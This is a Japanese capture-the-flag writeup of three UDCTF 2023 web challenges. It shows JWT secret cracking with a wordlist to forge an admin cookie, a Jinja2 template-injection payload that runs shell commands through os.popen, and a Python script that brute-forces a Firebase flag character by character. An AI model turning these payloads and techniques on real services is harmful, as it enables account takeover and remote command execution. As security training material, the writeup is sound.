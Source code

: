 ```yaml
---
title: "UDCTF 2023 Writeup"
date: 2023-10-31T14:00:00+09:00
lastmod: 2023-10-31T14:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: ""
---
```

{{% right %}}
<a href="https://translate.google.com/translate?hl=en&sl=auto&tl=en&u=https%3A%2F%2Fcaptureamerica.github.io%2Fwriteups%2Fpost%2Fudctf_2023%2F">
<img src="https://captureamerica.github.io/writeups/img/En.png" alt="English">
</a>
{{% /right %}}

URL: [https://bluehens.ctfd.io/challenges](https://bluehens.ctfd.io/challenges)
<br /><br />

287 points を取り、250位でした。

<img src="https://captureamerica.github.io/writeups/img/udctf_2023_Score.png" alt="udctf_2023_Score.png">

<br><br>
Web チャレンジだけやりました。他はほぼ未着手なので、スクリーンショット撮っていません。

<img src="https://captureamerica.github.io/writeups/img/udctf_2023_chall.png" alt="udctf_2023_chall.png">


<br /><br />
## [Web]: Super Admin (77 points)
- - -
### Challenge
> Comfort food.
<br /><br />
https://bluehens-web-cookies.chals.io/

<br />
### Solution

チャレンジ文が `Comfort food.` しか無いですが、Webチャレンジで食べ物と言ったら Cookie ですね。

ウェブサイトに飛んで User と書かれたボタンを押すと、以下の Cookie が付きます。

<pre>
Set-Cookie: creds=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoidXNlciIsImlhdCI6MTY5ODQ5MDg2NX0.QRtAAMe3AOv2Rh4UJhXzhw4IA2h8akOh9wy9BvZdA54; Max-Age=900; Path=/; Expires=Sat, 28 Oct 2023 11:16:05 GMT
</pre>

<br />

Base64デコードしたら、JWTなのがわかります。

<pre>
$ echo -n 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9' | base64 -d
{"alg":"HS256","typ":"JWT"}
</pre>

<br />

jwt_tool.py を使って Secret Key をゲットします。

<pre>
$ python3 jwt_tool.py -C eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoidXNlciIsImlhdCI6MTY5ODQ5MDg2NX0.QRtAAMe3AOv2Rh4UJhXzhw4IA2h8akOh9wy9BvZdA54 -d /usr/share/wordlists/rockyou.txt
:
[+] password1 is the CORRECT key!
:
</pre>

<br />

https://jwt.io/ で、上記のkeyを使って、userのところをadminに書き換えます。

<br />

FireFoxのdeveloper toolsのstorageのところでcookieの値を書き換えて、profileページに飛ぶとフラグが得られます。

<br />

Flag: `UDCTF{k33p_17_51mp13_57up1d_15_4_l1e}`



<br /><br />
<br /><br />
## [Web]: Just Cat The Flask 1/2 (100 points)
- - -
### Challenge
> https://bluehens-cat-the-flask.chals.io/greeting/hackers
<br /><br />
-ProfNinja and DaveTheDaemonSlayer

（後日みたらURLが変わっているようですが、上記は自分が解いたときのものです。）

<br />
### Solution

https://bluehens-cat-the-flask.chals.io/ にアクセスすると、以下が表示されます。
<pre>
USAGE: /greeting/:name
</pre>

<br />

次に、https://bluehens-cat-the-flask.chals.io/greeting/{{4*4}} にアクセスすると、以下が表示されます。
<pre>
Hi 16!
</pre>

<br />

Jinja2 SSTI ってやつかな。

参考：[https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)


<br />
`{{4*4}}` の部分を `{{config.__class__.__init__.__globals__['os'].popen('ls -al').read()}}` のように変えると、ファイルの一覧が取れます。

<pre>
Welcome total 24 
drwxr-xr-x 1 root root 4096 Oct 28 08:08 . 
drwxr-xr-x 1 root root 4096 Oct 28 07:58 .. 
-rwxr-xr-x 1 root root 658 Oct 28 06:16 chall.py 
-rw-r--r-- 1 root root 46 Oct 28 05:49 flag1.txt 
-rw-r--r-- 1 root root 13 Oct 28 05:51 requirements.txt 
drwxr-xr-x 2 root root 4096 Oct 28 05:51 sum_suckers_creds !
</pre>

<br />

あとは、flag1.txt の中身を見るだけです。

<br />

Flag: `UDCTF{l4y3r_1_c0mpl3t3_g00d_luck_w1th_p4rt_2}`




<br /><br />
<br /><br />
## [Web]: Best Bathroom on Campus (100 points)
- - -
### Challenge
> <img src="https://captureamerica.github.io/writeups/img/udctf_2023_bestbathroom.png" alt="udctf_2023_bestbathroom.png">
> <br /><br />
> https://best-bathroom-default-rtdb.firebaseio.com/flag/UDCTF.json
> <br /><br />
> (Tried 'em all)

<br />
### Solution

チャレンジ文にあるスクリーンショットを見たら、brute forceしたらいいのはわかります。

<br />

ちょっと動作確認をすると、以下のような感じで、`true`か`null`が返るようです。

<pre>
https://best-bathroom-default-rtdb.firebaseio.com/flag/UDCTF{.json
==> trueが返る

https://best-bathroom-default-rtdb.firebaseio.com/flag/UDCTF{A.json
==> nullが返る

https://best-bathroom-default-rtdb.firebaseio.com/flag/UDCTFA.json
==> nullが返る
</pre>

<br />

自分のブログを見返して（実際にはローカルでgrepサーチ）、
[BCACTF CTF 2022](https://captureamerica.github.io/writeups/post/bcactf_2022/#web-blatant-sqli-175-points) で書いたコードが使え回せそうだったので、それを編集して使いました。

```python
#!/usr/bin/env python

import requests, string

chars = list(string.printable)
# chars = list(string.ascii_lowercase + string.digits + '!#$&?@{}_')

flag = 'UDCTF{'
url = 'https://best-bathroom-default-rtdb.firebaseio.com/flag/'

while True:
    for c in chars:
        if c == '%' or c == ',' or c == ';' or c == '/':
            continue
        temp_flag = flag + c
        temp_url = url + temp_flag + ".json"
        print(temp_url)
        response  = requests.get(temp_url)
        # if 'true' in response.text:
        if response.text == 'true':
            flag = temp_flag
            print(flag)
            if c == '}':
                exit()
            break;
        else:
            pass
```


<br />
なお、テストの結果、`/`が含まれていると true が返って来てしまうようなので新たに除外リストに入れました。


<br />

Flag: `UDCTF{1ce_L4br4t0ry_s3C0nd_Fl0or_b0y's_b4thr00m}`


<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />

